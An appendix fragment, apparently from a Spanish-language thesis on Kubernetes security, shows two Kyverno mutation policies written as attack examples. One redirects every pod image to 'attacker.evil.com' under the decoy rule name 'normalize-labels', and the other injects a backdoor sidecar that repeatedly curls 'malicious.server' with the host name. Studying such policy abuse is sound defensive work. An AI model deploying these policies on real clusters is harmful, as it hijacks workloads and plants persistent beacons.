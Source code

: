 \documentclass[12pt,twoside,titlepage]{report}
\begin{document}
\subsection{Modificación política mutación imagepullpolicy}
\begin{lstlisting}[language=yaml, caption={mod-imagepullpolicy.yaml}, label={lst:mod-imagepullpolicy}]
piVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  annotations:
[...]
  uid: 3e2a9f2d-3731-4b9f-87f1-eaaf990d63a8
spec:
  admission: true
  background: true
  emitWarning: false
  rules:
  - match:
      resources:
        kinds:
        - Pod
    mutate:
      foreach:
        - list: "request.object.spec.containers"
          patchStrategicMerge:
            spec:
              containers:
                - (name): "{{ element.name }}"
                  image: "attacker.evil.com/{{ element.image }}"
                  imagePullPolicy: Always
    name: normalize-labels
[...]
\end{lstlisting}
\subsection{Política mutación inyección sidecar}
\begin{lstlisting}[language=yaml, caption={inject-backdoor-sidecar.yaml}, label={lst:inject-backdoor-sidecar}]
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: inject-backdoor-sidecar
spec:
  rules:
  - name: add-backdoor
    match:
      any:
      - resources:
          kinds: ["Pod"]
    mutate:
      patchStrategicMerge:
        spec:
          containers:
            - name: attacker-sidecar
              image: "alpine:3.17"              
              command: ["/bin/sh"]
              args: ["-c", "apk add --no-cache curl; while true; 
              do curl -s http://malicious.server/$(hostname); 
              sleep 300; done"]
\end{lstlisting}
\chapter{\textit{Deployments} utilizados}
\label{sec:apendice2}
\end{document}
